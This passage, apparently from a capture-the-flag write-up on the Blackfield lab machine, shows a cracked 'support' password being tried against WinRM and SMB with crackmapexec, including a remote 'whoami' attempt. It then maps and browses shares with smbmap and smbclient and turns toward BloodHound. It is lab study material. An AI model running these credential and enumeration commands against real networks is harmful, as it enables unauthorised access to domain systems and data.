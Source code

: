 ### enumerate SMB with username 'support'

This credential do not seem to be usable for WinRM service :

```bash
crackmapexec winrm ${TARGET} -u support -p '#00^BlackKnight'
```

```text
SMB         10.10.10.192    5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
HTTP        10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [-] BLACKFIELD.local\support:#00^BlackKnight
```

also for SMB :

```bash
crackmapexec smb $TARGET -d blackfield.local -u support -p '#00^BlackKnight' -x whoami
```

fails too.

Enumerate the shares this user have access :

```shell
smbmap -u support -p '#00^BlackKnight' -H ${TARGET}
```

Result:

```text
[+] IP: 10.10.10.192:445	Name: 10.10.10.192        	Status: Authenticated
    Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	forensic                                          	NO ACCESS	Forensic / Audit share.
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	profiles$                                         	READ ONLY	
	SYSVOL                                            	READ ONLY	Logon server share 
```

Try to enumerate these new accessible shares with :

```shell
smbclient -N "\\\\${TARGET}\\NETLOGON" -U 'support%#00^BlackKnight' 
smbclient -N "\\\\${TARGET}\\SYSVOL" -U 'support%#00^BlackKnight'
```

- NETLOGON : completely empty
- SYSVOL : have some files, but none of them seems usefull

### bloodhound

Since we know a username, we could use [bloodhound](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/bloodhound). So let's give a try.
